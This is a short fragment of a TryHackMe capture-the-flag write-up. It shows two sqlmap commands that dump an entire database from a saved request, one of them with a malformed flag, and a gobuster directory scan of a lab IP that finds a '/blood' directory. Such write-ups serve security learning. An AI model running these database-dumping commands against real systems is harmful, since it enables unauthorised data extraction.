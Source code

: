 `sqlmap -r req.txt -D <database_name> --dump-all`\
\
`sqlmap -r req.txt-p  -D <database_name> --dump-all`\


## Room THM

### Task 1 - What is the name of the interesting directory ?

```bash
gobuster dir -u 10.10.162.67 -w /usr/share/dirbuster/wordlists/directory-list-2.3-small.txt
```

```bash
===============================================================
Gobuster v3.5
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.162.67
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/dirbuster/wordlists/directory-list-2.3-small.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.5
[+] Timeout:                 10s
===============================================================
2023/07/08 18:44:56 Starting gobuster in directory enumeration mode
===============================================================
/blood                (Status: 301) [Size: 194] [--> http://10.10.162.67/blood/]
```
